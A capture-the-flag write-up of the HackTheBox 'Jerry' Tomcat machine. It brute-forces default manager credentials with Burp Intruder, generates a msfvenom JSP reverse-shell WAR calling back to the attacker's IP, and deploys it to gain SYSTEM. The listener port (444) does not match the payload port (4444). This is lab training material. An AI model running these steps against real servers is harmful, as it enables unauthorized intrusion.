 ```yaml
---
title: 'HachTheBox - Jerry'
date: '2021-10-07 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/jerry/jerry.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


Our first step is to run nmap. Only port ```8080``` is open. The alternative to port ```80```. There's some information disclosure as some service information is included.

![nmap-scan-results](/assets/img/jerry/jerry-nmap.png)

We navigate to "http://10.10.10.95:8080/" and find a default web page. I wonder if we can gain access to the web server with default credentials?

![default-apache-page](/assets/img/jerry/apache-default.png)

We search Google for "tomcat default credentials". THe first result is "https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown". We will use this list to bruteforce our way in. There are tools to automate this process but we're going to it manually.

![default-tomcat-credentails](/assets/img/jerry/git-default-creds.png)

Copy all the default creds into a text file. I'm using Mousepad. Use Find and Replace to search for the space ("  "), replace it with a colon, then select replace all and hit save. I saved mine as tomcat.txt

![find-and-replace](/assets/img/jerry/find&replace.png)

Now in your browser, go to Preferences > Settings (bottom of pages). In connection settings select manual proxy. CHange the proxy to ```127.0.0.1``` and Port to ```8080```. Select "Also use this proxy for FTP and HTTPS". And press okay.

![change-browser-proxy-settings](/assets/img/jerry/browser-proxy-settings.png)

Fire up Burp Suite, select "Temporary project" and "Next" > "Use Burp defaults" and select "Start Burp".

![start-burp](/assets/img/jerry/start-burp.png)

We're going to write a bash script that we'll use to bruteforce our way into the web server.
```bash
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```
This is going iterate through each line in the .txt file, convert it into base64 and print it out. Copy the base64 list.

![convert-to-base64](/assets/img/jerry/base64.png)

Next we return to the Apache Tomcat page and select "Manager App". Nothing happens because Burp has intercepted the request. So we navigate to Burp suite, look for the Proxy tab and "Forward" the request.

![first-burp-request](/assets/img/jerry/burp-1st-request.png)

We go back to the Apache web page and select "OK" in the pop up, without entering any credentials. Back in burpe, under the proxy tab we right click on the request in the raw text area and select "Send to Intruder".

![burp-intruder](/assets/img/jerry/send-to-intruder.png)

Navigate to the "Intruder" tab, then to "Positions". We highlight our payload paramater area and select the "Add" button. The highlighted area is what we will be replacing with our base64 list.

![set-payload-parameter](/assets/img/jerry/burp-payload-parameter.png)

Now select the payloads tab, and under "Payload Options", paste the base64 list we copied. Make sure to deselect the "URL-encode these characters" option. Select "Start Attack".

![paste-base64](/assets/img/jerry/burp-base-paste.png)

Search for the the result with the "200" status code. Those are the correct credentials. To decode it, select the correct payload and below where it shows the request, highlight the base64 string. Right click and select "Send to Decoder". Go to the decoder and select decode as bas64. The output should be "tomcat:s3cret".

![decode-credentials](/assets/img/jerry/creds-decode.png)

We can now set our browser proxy settings back to system proxy settings.

Now that we have access to the web server, we want to upload a malicious file. The malicious file will be a reverse shell that we're going to generate using ```msfvenom```.

The payload we want can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/".
```msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war```

![cheatsheet](/assets/img/jerry/cheatsheet.png)

We can paste the snippet into the terminal. Adding your ```tun0``` IP as your LHOST, and assigning LPORT to ```4444```. ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f war > shell.war```. Then we start a listener on the same port for our reverse shell to connect to with ```nc -nvlp 444```.

![generate-file-and-start-listener](/assets/img/jerry/generate&listener.png)

In the Apache mamager scroll down to where you see "War file to deploy". Browse and select the WAR file we just generated and select "Deploy". It should now be deployed under Applications in the manager dashboard.

![upload-war-file](/assets/img/jerry/upload-war.png)

Select "/shell" under applications. This initiates the shell and talks back to our listener.

![trigger-shell](/assets/img/jerry/applications-shell.png)

We return to our terminal and see we have a shell. We run whoami and see we have authority\system. Congratulations, you have owned this box!

![system-owned](/assets/img/jerry/owned.png)

Now locate the flags to fully own this system. 

![locate-flags](/assets/img/jerry/flags.png)















